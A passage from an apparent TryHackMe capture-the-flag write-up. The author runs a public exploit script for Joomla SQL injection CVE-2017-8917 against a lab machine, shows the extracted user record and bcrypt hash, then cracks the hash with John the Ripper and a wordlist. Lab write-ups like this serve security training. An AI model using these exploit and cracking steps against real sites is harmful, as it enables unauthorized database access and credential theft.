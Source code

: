 >https://www.cvedetails.com/cve/CVE-2017-8917/

# Exploitation

There is a python code available to exploit this vulnerability.

>https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

```python
┌──(root㉿kali)-[~/tryhackme]
└─# ./joomblah.py http://10.10.59.64/   
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We found a user ```jonah``` with a password hash. Let's crack the hash using John The Ripper. It takes quite some time to crack the password.

```shell
┌──(root㉿kali)-[~/tryhackme]
└─# cat hash.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

┌──(root㉿kali)-[~/tryhackme]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:08:37 DONE (2023-03-20 01:18) 0.001933g/s 90.54p/s 90.54c/s 90.54C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
